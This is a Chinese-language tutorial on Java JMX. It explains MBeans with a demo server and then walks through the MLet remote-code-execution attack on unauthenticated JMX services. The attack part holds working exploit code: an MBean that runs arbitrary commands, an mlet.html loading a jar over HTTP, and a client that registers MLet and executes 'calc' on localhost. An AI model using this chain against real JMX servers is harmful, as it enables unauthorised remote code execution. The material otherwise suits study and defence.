 ```yaml
---
comments: true
---
```

# 7 JMX

`JMX`，全称`Java Management Extensions`，用于管理和监控`java`应用程序。

举个例子，我们可以通过`jconsole`监控应用程序的堆内存使用量、线程数、类数，查看某些配置信息，甚至可以动态地修改配置。另外，有时还可以利用`JMX`来进行测试。

基础架构如下：
![alt text](img/jmx.png)

JMX把所有被管理的资源都称为 MBean（Managed Bean），这些MBean全部由MBeanServer管理，如果要访问MBean，可以通过MBeanServer对外提供的访问接口，例如通过RMI或HTTP访问。

通俗的讲，JMX是一个服务器，它能让客户端远程访问该服务器上运行的java程序的api，并且可以对该程序通过相应的函数进行增删改查。
一般运维人员常部署zabbix、cacti和nagios对tomcat、weblogic等服务器进行监控，通常通过JMX访问Tomcat、weblogic的方式实现的，通过JVM的queryMBeans方法查询获取具体的Mbean（Thread、JVM、JDBC），根据bean的属性值判断运行状态。

## JMX demo

!!! tips
    MBean 接口的命名规范："xyzMBean"，其实现类则需要名为: "xyz"。

=== "HelloMbean"

    ```java
    package cc.jmx;

    public interface HelloMBean {
        public String getName();
        public void setName(String newName);
        public String sayHello();
    }
    ```

=== "Hello"

    ```java
    package cc.jmx;

    public class Hello implements HelloMBean{
        private String name = "colemak";

        // getter/setter for the "name" attribute
        public String getName() { return this.name; }
        public void setName(String newName) { this.name = newName; }

        // Methods
        public String sayHello() { return "hello: " + name; }
    }
    ```

=== "JMXServer"

    ```java
    package cc.jmx;

    import javax.management.*;
    import javax.management.remote.JMXConnectorServer;
    import javax.management.remote.JMXConnectorServerFactory;
    import javax.management.remote.JMXServiceURL;
    import java.lang.management.ManagementFactory;
    import java.rmi.registry.LocateRegistry;

    /**
     * Hello world!
     *
     */
    public class jmxserver
    {
        public static void main( String[] args ) throws Exception {

            MBeanServer server = ManagementFactory.getPlatformMBeanServer();
            try {
                // 注册一个MBean
                server.registerMBean(new Hello(), new ObjectName("domain1:key1=val1"));
            }
            catch (InstanceAlreadyExistsException | MBeanRegistrationException | NotCompliantMBeanException | MalformedObjectNameException e) {
                e.printStackTrace();
            }
            // 启用端口用于JMX连接
            LocateRegistry.createRegistry(9999);
            JMXConnectorServer jcs = JMXConnectorServerFactory.newJMXConnectorServer(
                    new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:9999/jmxrmi"),
                    null,
                    server);
            jcs.start();
        }
    }
    ```

启动`JMXServer`，然后使用`jconsole`连接`127.0.0.1:9999`。

![alt text](img/19.png){loading=lazy}

## JMX RMI MLet

!!! tips "利用条件"

    - 允许远程访问，没有开启认证 (com.sun.management.jmxremote.authenticate=false)
    - 能够远程注册 MBean (javax.management.loading.MLet)


攻击者可以通过Mlet的getMbeanFromUrl方法进行远程加载恶意的jar包注册 MBean，使 JMX 服务器调用其中的恶意方法实现攻击。

首先将以下恶意类打包为jar文件

=== "EvilMBean.java"

    ```java
    package cc.jmx;

    public interface EvilMBean {
        public void execmd(String cmd) throws Exception;
    }
    ```

=== "Evil.java"

    ```java
    package cc.jmx;

    public class Evil implements EvilMBean {
        public void execmd(String cmd) throws Exception{
            Process process = Runtime.getRuntime().exec(cmd);
        }
    }
    ```

在相同目录下编写 `mlet.html`

```html
<html>
    <mlet code="cc.jmx.Evil" archive="comp.jar" name="MLetCompromise:name=evil,id=1" codebase="http://127.0.0.1:10001">
    </mlet>
</html>
```

然后启动一个 HTTP 服务，以便 JMX server 访问加载恶意MBean

编写客户端远程向服务器注册MLet，加载运行恶意MBean

```java
package cc.jmx;

import java.lang.management.ManagementFactory;
import java.net.InetAddress;
import java.util.Arrays;
import java.util.HashSet;
import java.util.Iterator;
import java.util.Set;
import javax.management.*;
import javax.management.remote.JMXConnector;
import javax.management.remote.JMXConnectorFactory;
import javax.management.remote.JMXServiceURL;

public class MLetMBeanClient {

    public static void main(String[] args) throws Exception {
        // 连接JMX Server
        JMXServiceURL url = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:9999/jmxrmi");
        JMXConnector jmxConnector = JMXConnectorFactory.connect(url);
        MBeanServerConnection mBeanServerConnection = jmxConnector.getMBeanServerConnection();
        ObjectInstance evilBean = null;
        ObjectInstance evil = null;
        Object expResult;
        try{
            // 注册MLet
            evil = mBeanServerConnection.createMBean("javax.management.loading.MLet",null);

            // 从远程加载恶意MBean
            Object loadEvilBean = mBeanServerConnection.invoke(evil.getObjectName(),"getMBeansFromURL",new Object[]{"http://127.0.0.1:10001/mlet.html"},new String[]{String.class.getName()});
            HashSet hashSet = ((HashSet)loadEvilBean);
            Iterator iterator = hashSet.iterator();
            Object theObject = iterator.next();

            evilBean = ((ObjectInstance)theObject);
            System.out.println(evilBean.getObjectName());

            // 调用恶意MBean的execmd方法
            expResult = mBeanServerConnection.invoke(evilBean.getObjectName(),"execmd",new String[]{"calc"},new String[]{String.class.getName()});
        } catch (Exception e) {
            // 若已注册，则直接调用
            ObjectName objectName = new ObjectName("MLetCompromise:name=evil,id=1");
            expResult = mBeanServerConnection.invoke(objectName,"execmd",new String[]{"calc"},new String[]{String.class.getName()});
        }
        System.out.println(expResult);
    }
}
```

测试结果如下
![alt text](img/20.png){loading=lazy}

## 参考资料

- [Jmx Rmi Rce 漏洞利用复现&分析](https://www.cnblogs.com/0x28/p/15685164.html){target=_blank}
- [MBean使用及JMX漏洞复现](https://www.cnblogs.com/muphy/p/13971984.html){target=_blank}